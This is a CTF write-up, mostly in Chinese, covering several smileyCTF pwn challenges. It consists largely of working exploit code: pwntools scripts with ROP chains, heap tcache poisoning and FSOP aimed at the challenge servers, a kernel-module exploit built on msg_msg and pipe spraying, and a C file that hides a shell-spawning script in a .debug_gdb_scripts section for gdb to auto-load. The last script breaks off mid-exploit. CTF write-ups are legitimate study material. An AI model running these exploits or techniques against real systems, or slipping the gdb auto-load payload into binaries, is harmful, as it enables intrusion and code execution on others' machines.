


# smileyCTF- wirteup

## pwn/debuggable-1

‍

- run.py

```py
#!/usr/bin/python3

from base64 import b64decode
from os import memfd_create, getpid, write, environ
from subprocess import run
import builtins

def print(*args, **kwargs):
    builtins.print(*args, **kwargs, flush=True)

#data = input("elf: ").strip()
#elf = b64decode(data)
#elf = open('exp/exploit','rb').read()
elf = open('','rb').read()
print("got elf")

pid = getpid()
print(pid)

fd = memfd_create("elf")

#elf = b'HACK'
write(fd, elf)
tmp = f"/proc/{pid}/fd/{fd}"

env = environ.copy()
env["HOME"] = "/home/ctf"

print(tmp)
handle = run(["gdb", tmp, "-ex", "list '/app/flag.txt'", "-ex", "q"], capture_output=True, check=True, encoding="utf-8", env=env, input="")
print(handle.stdout)

print("bye")
input('')

```

‍

‍

### solution

‍

‍

```bash
as --gstabs -o exploit.o AAAAAAAAAAA.s
ld -o exploit exploit.o

  /app strings -t x exploit | grep AAA
   10c9 AAAAAAAAAAA.s
➜  /app printf '/app/flag.txt' | dd of=exploit bs=1 seek=$((0x10c9)) conv=notrunc
```



```c
.section .text
.global "/app/flag.txt"  # 定义函数名为 /app/flag.txt
.type "/app/flag.txt", @function

"/app/flag.txt":         # 函数实现
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop                  # 确保函数有足够行数
    ret

.global _start
_start:
    call "/app/flag.txt" # 调用函数确保其被包含
    ret
```

‍

## pwn/debuggable-2

‍

- run.py

‍

```python
#!/usr/bin/python3

from base64 import b64decode
from os import memfd_create, getpid, write, environ
from subprocess import run
import builtins

def print(*args, **kwargs):
    builtins.print(*args, **kwargs, flush=True)

#data = input("elf: ").strip()
#elf = b64decode(data)
elf = open('./exp/your_program','rb').read()
print("got elf")

pid = getpid()
fd = memfd_create("elf")

write(fd, elf)
tmp = f"/proc/{pid}/fd/{fd}"

env = environ.copy()
env["HOME"] = "/home/ubuntu"
handle = run(["gdb", tmp, "-ex", "q"], capture_output=True, check=True, encoding="utf-8", env=env, input="")
print(handle.stdout)

print("bye")

```

‍

​`.gdbinit`​ 多了一个设置

‍

```bash
set auto-load safe-path /   # 会自动加载 gdb 当前目录下 .gdbinit, 包括 被调试 文件里的调试信息
```

‍

‍

### solution

ctftime 找了一个

- [https://ctftime.org/writeup/27769](https://ctftime.org/writeup/27769)

‍

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
  asm(
  ".pushsection \".debug_gdb_scripts\", \"MS\",@progbits,1\n"
  ".byte 4 \n"
  ".ascii \"gdb.inlined-script\\n\"\n"
  ".ascii \"import os\\n\"\n"
  ".ascii \"os.system('/bin/sh')\\n\"\n"
  ".byte 0\n"
  ".popsection\n"
  );

  printf("hello world\n");
}
```

## pwn/babyrop

‍

这题 虽然有 输出的函数，但是 rdi 寄存器难以控制

之前再 XCTF-ACT 2025 一道 题目 中 (only read) 我找到里几个非常好用的 gadget （不需要爆破），非常的骚

‍

### solution

- gadget1

可以轻松控制 edx (我不知道为什么 我的 ROPgadget 和 ropper 没有找到 这个 gadget,所有我手动找的)

‍


- gadget2

这个gadget 也非常常见

```python
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
```

‍

- gadget3

执行这里会回到 main 函数 但是 在过程中 他会 把 edx 赋给 ebx


‍

以上 3 个 gaget 配合使用 可以 轻松 把修改 bss 上的 puts 地址改成 system

‍

(我直接把我之前写的 2025xctf-actf  only read 的exp    改了 几个偏移 就通了)

```python
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'smiley.cat 41065'.replace(' ',':')
binary = './vuln'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
#b *0x040115E
#b *main
b *0x000000000040115c

#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))

io = start([])

#gdb.attach(io,gdbscript=gdbscript)

bss = elf.bss() >> 0xC << 0xC

lss('bss')

_main  = 0x401205
_start = 0x040109D
rbp    = 0x000000000040115d # pop rbp ; ret
target = 0x404010
leave_ = 0x4011CD

# 0x404eb8 —▸ 0x7184b2e2a28b (__libc_start_main+139) ◂— mov r15, qword ptr [rip + 0x1d8cf6]
# 0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
one_gadget_offset = 0xef52b - 0x2a28b - 0x800 - 1
one_gadget_offset =  0x100000000 - (libc.sym['puts'] - libc.sym['system'])
print(hex(one_gadget_offset))
pause()

magic_gadget_1 = 0x040114C # adc edx, dword ptr [rbp + 0x48]; mov ebp, esp; call 0x3090; mov byte ptr [rip + 0x2efb], 1; pop rbp; ret;
magic_gadget_2 = 0x000000000040115c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret


pay  = b'A' * 0x20
pay += p64(bss + 0xF00)
pay += p64(_main)
#gdb.attach(io)
s(pay)
pause()

pay  = b'A' * 0x18
pay += p64(one_gadget_offset) # 放最下面应该也行
pay += p64(bss + 0x800)
pay += p64(rbp) + p64(0x404ef8 - 0x48)
pay += p64(magic_gadget_1)
pay += p64(0)
pay += p64(_start)
s(pay)
pause()

pay  = b'A' * 0x20
pay += p64(bss + 0xF00)
pay += p64(rbp) + p64(target + 0x3d)
pay += p64(magic_gadget_2)
pay += p64(rbp) + p64(target - 8)
pay += p64(rbp+1)
pay += p64(rbp) + p64(bss + 0x800)
pay += p64(0x401205)
s(pay)
pause()
sl('/bin/sh;')
itr()

```

‍

‍

‍

## pwn/blargh

‍

ko 文件,  可以实现一次 printk 任意 偏移 将一个 字节 修改成 0

但是 这题的 启动参数 关闭了 地址随机化 (nokaslr),

```c
__int64 __fastcall blargh_ioctl(__int64 a1, int a2, __int64 a3)
{
  unsigned __int64 v3; // rax
  unsigned __int64 v4; // rax

  if ( a2 != 1074292513 || !writes )
    return -1LL;
  v3 = __readcr0();
  __writecr0(v3 ^ 0x10000); // 关闭保护
  *((_BYTE *)&printk + a3) = 0;
  v4 = __readcr0();
  __writecr0(v4 ^ 0x10000); // 开启保护
  writes = 0;
  return 0LL;
}
```

```bash
#!/bin/bash

qemu-system-x86_64 -s \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -kernel bzImage \
    -initrd initramfs.cpio.gz \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 nokaslr kpti=1 quiet panic=0"

```

‍

‍

‍

‍

‍

### solution

我这个方法比较复杂 （偷 2025 LA CTF 的messenger 题目的思路）

‍

修改前


修改后 没有  `mov rdx,r12`​ 了，rdx 还是 0x400 , 构造堆溢出


‍

‍

‍

```c
#include "minilib.h"


#define MSGSZ 512  // 定义消息文本的缓冲区大小


#define __NR_msgget 68
#define __NR_msgsnd 69
#define __NR_msgrcv 70
#define __NR_msgctl 71


#define __NR_ipc 117
#define MSGSND   11

#define IPC_CREAT  01000 
#define IPC_NOWAIT 04000
#define MSG_NOERROR 010000
#define IPC_PRIVATE 0
typedef int key_t;

typedef struct msgbuf {
    long mtype;
    char mtext[MSGSZ];
} message_buf;

long msgget(key_t key, int msgflg) {
    long ret = syscall64(__NR_msgget, key, msgflg, 0);
    return ret;
}

long msgsnd(int msqid, const void *msgp, size_t msgsz, int msgflg) {
    long ret = syscall64(__NR_msgsnd, msqid, (long)msgp, msgsz, msgflg);
    return ret;
}

long msgrcv(int msqid, void *msgp, size_t msgsz, long msgtyp, int msgflg) {
    long ret = syscall64(__NR_msgrcv, msqid, (long)msgp, msgsz, msgtyp, msgflg);
    return ret;
}

int pipe(int pfd[2]) { return syscall64(22, pfd); }
int fd;
void edit(size_t addr){
    size_t _printk = 0xffffffff81303260;
    size_t offset = addr - _printk;
    ioctl(fd,0x40086721,offset);

}

char VULN_DEVICE[] = "/dev/blargh";
int odp(char *path){ return open(path, 0); }

void doMain(){
    bind_core(0);

    fd = odp(VULN_DEVICE);
    lss("fd", fd);
    
    //size_t target = 0xffffffff82b45b20 + 3; // modprobe_path
    size_t target = (0xffffffffc0000000 + 0x1c);
    edit(target);

    target = 0xffffffff8168b394+2;
    edit(target); // 这里会把


    //size_t flag_addr = 0xffff888003744000;
    size_t flag_addr = 0xffff888003513000; // 在 gdb 内存 搜索， 远程偏移是一样的


    size_t vmemmap_base     = 0xffffea0000000000;
    size_t page_offset_base = 0xffff888000000000;

    size_t target_mask      = flag_addr;
    target_mask -= page_offset_base;
    target_mask >>= 0xC;
    target_mask <<= 0x6;
    lss("target_mask", target_mask);
    // 0x1ed6c0


    int msg_list[0x100];
    int pipe_list[0x100][2];
  
    message_buf *msgbuf = (message_buf *)malloc(0x1000);
    char *buf = malloc(0x2000);
    memset(buf, 'B', 0x100);
    msgbuf->mtype = 1;
    memset(msgbuf->mtext, 'A', 0x3d0);
    for(int i=0;i<0x50;i++){
        msg_list[i]  = msgget(IPC_PRIVATE, 0666|IPC_CREAT);
        msgsnd(msg_list[i], msgbuf, 0x400-0x30, 0);
        pipe(pipe_list[i]);
        write(pipe_list[i][1], buf, 0x1000);
        msgrcv(msg_list[i], msgbuf, 0x400-0x30, 0, IPC_NOWAIT|MSG_NOERROR);
        *(size_t*)(msgbuf->mtext+0x3d0) = vmemmap_base + target_mask;
        *(size_t*)(msgbuf->mtext+0x3d0+0x08) = 0x100000000000;
        *(size_t*)(msgbuf->mtext+0x3d0+0x10) = 0xffffffff822228c0;
        *(size_t*)(msgbuf->mtext+0x3d0+0x18) = 0x10;
        msgsnd(msg_list[i], msgbuf, 0x400-0x30, 0);
        read(pipe_list[i][0], buf , 0x1000);
        if(buf[0] == '.'){
            puts(buf);
            pause();
        }
    }
}

extern void _start(){
    size_t env[0];
    environ = (size_t)&env[4];
    doMain();
    syscall64(60,0);
}
```


‍

## pwn/limit

‍

off by null


‍

### solution

‍

先控制 tcache_perthread_struct ，然后构造任意地址申请，  
例如要申请 到这个地方


‍

1. malloc 之后
2.  *[* 4:49 *]* 会把target 指针里的内容  ^（target>0xc） 然后 放到 tcache 里面


然后 就在heap 上了，然后泄露 就有了stack 地址 ，用同样的方法 把 stack 的 elf地址 再拿出来 就可以了


‍

```py

from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'smiley.cat 36123'.replace(' ',':')
binary = './limit'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
import socks
context.proxy = (socks.SOCKS5, '192.168.31.15', 10808)
gdbscript = '''
brva 0x00166E
brva 0x1445
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])

def add(idx,size=0xF8):
    ru(b'4) read to chunks with max possible size\n')
    sl('1')
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl(str(size))

def rm(idx):
    ru(b'4) read to chunks with max possible size\n')
    sl('2')
    ru(': ')
    sl(str(idx))

def show(idx):
    ru(b'4) read to chunks with max possible size\n')
    sl('3')
    ru(': ')
    sl(str(idx))

def edit(idx,data):
    ru(b'4) read to chunks with max possible size\n')
    sl('4')
    ru(': ')
    sl(str(idx))
    ru(': ')
    s(data)

for i in range(8):
    add(i)

for i in range(8-1,-1,-1):
    rm(i)

add(0xf,0x48)

for i in range(11):
    add(i)


show(0xf)
ru('Data: ')
libc_base = uu64(r(6)) - 0x203c10
lss('libc_base')

show(6)
ru('Data: ')
key = uu64(r(5))
heap_base = key << 0xC

lss('libc_base')
lss('key')
lss('heap_base')

fake = heap_base + 0x2f0
pay = p64(fake) + p64(fake)
edit(0xf, pay)
add(0xe,0xa8)

target = heap_base + 0x290
pay  = p64(0) + p64(0x3a1)
pay += p64(target) + p64(target)

edit(0xe,pay)
for i in range(11-1,3,-1):
    rm(i)
pay = 0xf0 * b'A'
pay += p64(0x3a0)
edit(2,pay)

rm(3)

for i in range(3,10):
    add(i)

rm(1)
rm(0)
libc.address = libc_base
#tcahe_key = libc_base + 0x20a178 - 8
#target = tcahe_key
target = heap_base + 0x20
add(11,0xe8)
pay  = 18 * p64(0)
pay += p64(0x1) + p64(0x101)
pay += p64(target ^ key) + p64(0x1)
edit(11,pay)

add(0)
add(1)

def pptr(count,addr):
    pay  = p64(0) + p32(0) + p32(count)
    pay += p64(0) * 26
    pay += p64(addr)
    edit(1,pay)

def show2():
    show(3)
    ru('Data: ')
    return uu64(r(6))


#lss('tcahe_key')
#pptr(1,tcahe_key)
#add(2)


#target = libc_base + 0x2046b8
#target = libcIbase + 0x204370
target = heap_base + 0x100
lss('target')
pptr(1,target)


add(3)

target = libc_base + 0x2046e0
pptr(1,target)
gdb.attach(io,gdbscript)
add(2)
pause()
stack = show2() ^ (target >> 0xc)
lss('stack')

pause()

target = stack - 0xd8
pptr(1,target)
add(2)

elf_base = show2() ^ (target >> 0xc)
elf_base -= 0x3d80
lss('elf_base')


target = elf_base + 0x4040
pptr(1,target)
add(2)


edit(2,p64(libc.sym['_IO_2_1_stdout_']))

fake_IO_addr = libc.sym['_IO_2_1_stdout_']
pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['system'],
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')

edit(0,pay)

lss('libc_base')
lss('key')
lss('heap_base')


itr()

```

‍

## pwn/teemo-tuesday

‍

- 对 zig 的代码不是很了解，这里我选择先把交互菜单写好 然后调着看

‍

‍

```c
// zig fmt: off
const std = @import("std");
const print = std.debug.print;
const linux = std.os.linux;
const ArrayList = std.ArrayList;

const Item = struct {
    const Id = enum(usize) {
        @"Sorcerer's Shoes",
        @"Malignance",
        @"Nashor's Tooth",
        @"Zhonya's Hourglass",
        @"Blackfire Torch",
        @"Liandry's Torment",
        @"Shadowflame",
        @"Void Staff",
        @"Rabadon's Deathcap",
        @"Fiendish Codex",
        @"Cosmic Drive",
        @"Stormsurge",
        @"Luden's Companion",
        None,
    };

    id: Id,
};

const Consumable = struct {
    const Id = enum(usize) {
        @"Cappa Juice",
        @"Elixir Of Sorcery",
        @"Elixir Of Iron",
        @"Elixir Of Wrath",
        @"Pickle Juice",
    };

    id: Id,
};

const Trinket = struct {
    const Id = enum(usize) {
        @"Farsight",
        @"Oracle",
        @"Stealth Ward",
        None,
    };

    id: Id,
};

fn set_cpu_count() !void {
    const orig = try std.posix.sched_getaffinity(0);
    var set: linux.cpu_set_t = @splat(0);
    set[0] = 1;
    try linux.sched_setaffinity(0, &set);
    _ = try alloc.alloc(u8, 1);
    try linux.sched_setaffinity(0, &orig);
}

fn displayId(Id: type, id: Id) void {
    const value = @intFromEnum(id);
    if (std.meta.intToEnum(Id, value)) |valid| {
        print("{s}", .{ @tagName(valid) });
    } else |_| {
        print("(Unknown id: {})", .{ value });
    }
}

const MAX_ITEMS = 6;
const Build = struct {
    name: ?[]const u8 = null,
    items: [MAX_ITEMS]Item = @splat(.{ .id = .None }),
    consumables: ArrayList(Consumable),
    trinket: Trinket = .{ .id = .None },
};

const banner =
\\                       .-'~~~-.
\\                     .'o  oOOOo`.
\\                    :~~~-.oOo   o`.
\\                     `. \ ~-.  oOOo.
\\        Top Diff       `.; / ~.  OO:
\\                       .'  ;-- `.o.'
\\                      ,'  ; ~~--'~
\\                      ;  ;
\\_______\|/__________\\;_\\//___\|/________
\\
\\Welcome to the Teemo build menu, where you are tasked with creating the most optimal Teemo build.
\\
\\Build options:
\\  1. Add an item to the build
\\  2. Add a consumable to the build
\\  3. Duplicate a consumable
\\  4. Choose a trinket
\\  5. Name build
\\  6. Show build
\\  7. Quit
\\
;

var alloc = std.heap.smp_allocator;
var stdin = std.io.getStdIn();
var builds: [3]Build = undefined;

fn parseInt(T: type, base: u8) !T {
    var buf: [0x100]u8 = @splat(0);

    const bytes = try stdin.reader().readUntilDelimiter(&buf, '\n');
    return try std.fmt.parseInt(T, bytes, base);
} 

pub fn main() !void {
    try set_cpu_count();

    var buf: [0x100]u8 = @splat(0);
    builds = @splat(.{
        .consumables = .init(alloc),
    });

    print(banner, .{});

    while (true) {
        print("Choose build: ", .{});
        const build_idx = parseInt(u32, 10) catch continue;
        if (build_idx >= builds.len) {
            print("invalid build!\n", .{});
            continue;
        }

        const build = &builds[build_idx];
        print("Choose an option: ", .{});
        const choice = parseInt(u32, 10) catch continue;

        switch (choice) {
            1 => {
                print("Choose item slot: ", .{});
                const slot = parseInt(u32, 10) catch continue;
                if (slot >= MAX_ITEMS) {
                    print("invalid item slot!\n", .{});
                    continue;
                }

                print("Choose item: ", .{});
                const name = try stdin.reader().readUntilDelimiter(&buf, '\n');

                inline for (@typeInfo(Item.Id).@"enum".fields) |field| {
                    if (std.mem.eql(u8, field.name, name)) {
                        build.items[slot] = .{ .id = @enumFromInt(field.value) };
                        break;
                    }
                } else {
                    print("invalid item!\n", .{});
                    continue;
                }

                print("Added {s} to slot {}\n", .{ @tagName(build.items[slot].id), slot });
            },
            2 => {
                print("Choose consumable: ", .{});
                const name = try stdin.reader().readUntilDelimiter(&buf, '\n');

                inline for (@typeInfo(Consumable.Id).@"enum".fields) |field| {
                    if (std.mem.eql(u8, field.name, name)) {
                        try build.consumables.append(.{ .id = @enumFromInt(field.value) });
                        break;
                    }
                } else {
                    print("invalid consumable!\n", .{});
                    continue;
                }

                print("Added {s}\n", .{ @tagName(build.consumables.getLast().id) });
            },
            3 => {
                print("Choose slot to duplicate: ", .{});
                const slot = parseInt(u32, 10) catch continue;

                if (slot >= build.consumables.items.len) {
                    print("invalid slot!\n", .{});
                    continue;
                }

                try build.consumables.append(build.consumables.items[slot]);
            },
            4 => {
                print("Choose trinket: ", .{});
                const name = try stdin.reader().readUntilDelimiter(&buf, '\n');

                inline for (@typeInfo(Trinket.Id).@"enum".fields) |field| {
                    if (std.mem.eql(u8, field.name, name)) {
                        build.trinket = .{ .id = @enumFromInt(field.value) };
                        break;
                    }
                } else {
                    print("invalid trinket!\n", .{});
                    continue;
                }

                print("Chose {s}\n", .{ @tagName(build.trinket.id) });
            },
            5 => {
                print("Name your build: ", .{});

                if (build.name) |name| {
                    alloc.free(name);
                    build.name = null;
                }
                var name: []const u8 = try stdin.reader().readUntilDelimiterAlloc(alloc, '\n', 0x1000);
                defer alloc.free(name);

                name = std.mem.trim(u8, name, &std.ascii.whitespace);
                build.name = try alloc.dupe(u8, name);
            },
            6 => {
                print("Current build:\n", .{});

                const name = val: for (build.name orelse "\xff") |ch| {
                    if (!std.ascii.isAlphanumeric(ch) and !std.ascii.isWhitespace(ch))
                        break :val "(Garbled yordle noises)";
                } else {
                    break :val build.name.?;
                };
                print("  == {s}\n", .{ name });

                print("  == Items\n", .{});
                for (&build.items, 0..) |x, idx| {
                    print("    [{}] ", .{ idx });
                    displayId(Item.Id, x.id);
                    print("\n", .{});
                }
                print("  == Consumables\n", .{});
                for (build.consumables.items, 0..) |x, idx| {
                    print("    ({}) ", .{ idx });
                    displayId(Consumable.Id, x.id);
                    print("\n", .{});
                }
                print("  == Trinket\n", .{});
                print("    ", .{});
                displayId(Trinket.Id, build.trinket.id);
                print("\n", .{});
            },
            7 => break,
            else => print("invalid choice!\n", .{}),
        }
    }
}

```

‍

‍

1. 问题1: 功能3 dup 催在问题， 满了扩展的时候  dup 是从free 的堆块取得 值
2.  *[* 17:44 *]* 因此可以泄露 heap 地址

```py
set_name(0,'A' * 0x80) # 申请 0x80
set_name(0,'a' * size2) # 释放 0x80 # 这里得操作是填充链表
#set_name(1,'HACK')
add_consumable(0,1)
for _ in range(0xF):
    dup(0,0)


dup(0,0)
# free  old_chunk # old_chunk[0] 是链表
# alloc 0x80 new_chunk
# new_chunk[max] = old_chunk[0] 

show(0)
ru('Unknown id: ')
heap_addr = int(ru(')')[:-1])
lss('heap_addr')
```

‍

‍

- 问题2  free 错位了

‍

在 build name 的功能 有个奇怪的 东西 `std.ascii.whitespace`​

```c
            5 => {
                print("Name your build: ", .{});

                if (build.name) |name| {
                    alloc.free(name);
                    build.name = null;
                }
                var name: []const u8 = try stdin.reader().readUntilDelimiterAlloc(alloc, '\n', 0x1000);
                defer alloc.free(name);

                name = std.mem.trim(u8, name, &std.ascii.whitespace);
                build.name = try alloc.dupe(u8, name);
            },
```

这里搜到一个  rust 的，无所谓反正函数名都差不多， 大概就是检测 有没有  `\r\t\n\x20`​ 等等字符


‍

‍

问题来了 当我 尝试用 这些字符填充的时候 发现了一个问题 （断点救了我 我在 memcpy  alloc free 这几个地方打的断点 ）

```py

set_name(1,''+'\x09'*0x22+ 'YYYY'+'\r'*0x400 +'ttt\r\t')
```

‍

跳过前面的 特殊字符 然后 copy


然后 free , 没有free 正确的指针，下次申请的时候 就会出现 堆溢出的情况


‍

‍

### solution

‍



‍

heap 和 elf 的地址 不是固定的 但是 差的都不多 大概 1/16 就可以了

‍

申请到 builds 然后伪造 ，泄露出stack 地址， 后面在申请到 stack 进行劫持


‍

```bash
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'smiley.cat 39263'.replace(' ',':')
binary = './chal'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
import socks
context.proxy = (socks.SOCKS5, '192.168.31.15', 10808)
gdbscript = '''
brva 0x09A70
brva 0x09600
brva 0x8F80
brva 0x79AA
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))


Consumable = [
        "Cappa Juice",
        "Elixir Of Sorcery",
        "Elixir Of Iron",
        "Elixir Of Wrath",
        "Pickle Juice",
        ]
Trinket =[ 
        "Farsight",
        "Oracle",
        "Stealth Ward",
          ]
Item = [
        "Sorcerer's Shoes",
        "Malignance",
        "Nashor's Tooth",
        "Zhonya's Hourglass",
        "Blackfire Torch",
        "Liandry's Torment",
        "Shadowflame",
        "Void Staff",
        "Rabadon's Deathcap",
        "Fiendish Codex",
        "Cosmic Drive",
        "Stormsurge",
        "Luden's Companion",
        ]
# len 0xC
def add_item(idx,slot,item_idx):
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl('1')
    ru(': ')
    sl(str(slot))
    ru(': ')
    sl(Item[item_idx])

def add_consumable(idx,consumable_idx):
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl('2')
    ru(': ')
    sl(Consumable[consumable_idx])

def dup(idx,slot): # copy idx to max
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl('3')
    ru(': ')
    sl(str(slot))

def trinket(idx,trinket_idx):
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl('4')
    ru(': ')
    sl(Trinket[trinket_idx])

def set_name(idx,name):
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl('5')
    ru(': ')
    sl(name)

def show(idx):
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl('6')


for i in range(0x10):
    io = start([])
    size1 = 0x10 * 8
    size2 = 0x28 * 8

    set_name(0,'A' * 0x80)
    set_name(0,'a' * size2)
    #set_name(1,'HACK')
    add_consumable(0,1)
    for _ in range(0xF):
        dup(0,0)

    dup(0,0)

    show(0)
    ru('Unknown id: ')
    heap_addr = int(ru(')')[:-1])
    lss('heap_addr')

    #for _ in range(0x17):
    #    dup(0,0)

    
    def add(idx,size):
        set_name(idx,size*'A')

    def rm(idx):
        set_name(idx,'')


    #add(0,0x80)
    #set_name(1,''+'\x09'*0x70+'YYYY'+'\x90'+'tt\r\t')

    #set_name(0,'D'*(0x28*8))
    #set_name(0,'E'*(0x38*8))
    #
    #for _ in range(0x10):
    #    dup(1,0)
    #
    #
    #set_name(0,'A'*0x80)
    #show(0)
    add(1,0x80)
    add(2,0x80)
    add(0,0x80)

    add(0,0x200)
    add(1,0x400)
    add(2,0x200)

    elf_base = heap_addr + 0x2a000

    set_name(1, '\x09' * 7 + 'A'*0x70)

    lss('heap_addr')

    #gdb.attach(io)
    #elf_base = heap_addr + int(input('offset:'),16)

    heap_GG = elf_base + 0x10100
    got = elf_base + 0xad38
